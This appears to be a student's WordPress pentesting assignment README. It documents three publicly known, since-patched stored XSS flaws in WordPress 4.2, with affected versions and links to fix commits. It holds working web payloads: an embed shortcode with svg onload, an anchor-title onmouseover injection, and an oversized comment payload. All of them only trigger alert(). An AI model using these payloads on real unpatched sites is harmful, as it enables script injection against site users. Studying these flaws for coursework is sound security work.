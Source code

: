 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: In the content of a post, enter the following:
        ```
        $ [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(12312313)\x3e'][/embed]
        ```
        Then, go to the post. The XSS will appear.
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
### 2. (Required) WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: In the title of a post, enter the following:
        ```
        $ <a href="</a><a title=" onmouseover=alert('xss')  ">link</a>
        ```
  - [ ] Affected source code:
    - wp-includes/kses.php wp-includes/shortcodes.php
### 3. (Required) Stored Cross-Site Scripting
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Suppose LARGE represents a 64 KB block of text. Then enter this into a comment:
        ```
        $ <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px LARGE'></a>
        ```
        The XSS will then appear persistently.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/32299)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
